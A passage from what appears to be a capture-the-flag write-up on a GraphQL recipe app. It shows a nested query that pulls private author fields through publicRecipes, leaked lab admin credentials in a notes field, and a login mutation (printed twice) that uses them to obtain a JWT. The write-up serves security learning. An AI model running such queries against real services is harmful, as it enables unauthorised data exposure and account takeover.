```
        }
      },
      ...
    ]
  }
}
```

one username is `sally`. let's look deeper by querying her profile information via referencing it from `recipes`:

```
{
  publicRecipes {
    id
    name
    description
    author {
      username
      email
      notes
      privateNotes
    }
  }
}
```

result:
```
"publicRecipes": [ { "id": "r1", "name": "Lemon Drizzle", "description": "A zesty lemon drizzle cake for the window display.", "author": { "username": "sally", "email": "sally@brunners.local", "notes": "TODO: Remove temporary credentials... brunner_admin:Sw33tT00Th321?", "privateNotes": null } },
```

bingo, we have admin credentials. we can use this at the `login` mutation to generate a valid jwt token, then include it in the `Authorization` header of the POST request.

```
mutation {
  login(username:"brunner_admin", password:"Sw33tT00Th321?") {
    token
    user {
      id
      username
    }
  }
}
mutation {
  login(username:"brunner_admin", password:"Sw33tT00Th321?") {
    token
    user {
      id
      username
    }
  }
}
```
